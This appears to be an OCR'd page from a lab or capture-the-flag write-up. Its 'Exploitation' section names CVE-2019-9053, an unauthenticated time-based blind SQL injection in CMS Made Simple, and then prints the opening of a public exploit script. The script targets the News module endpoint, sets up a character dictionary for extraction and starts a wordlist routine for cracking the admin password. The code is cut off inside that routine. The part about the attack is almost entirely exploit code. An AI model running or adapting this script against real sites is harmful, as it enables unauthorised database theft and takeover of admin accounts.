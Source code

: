 
## Exploitation

### CMS Made Simple SQL Injection

The CMS Made Simple version 2.2.8 is vulnerable to CVE-2019-9053, which allows unauthenticated blind time-based SQL injection through the News module.

#### Exploit Code

```python
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print "[+] Specify an url target"
    print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
    print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
    print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
```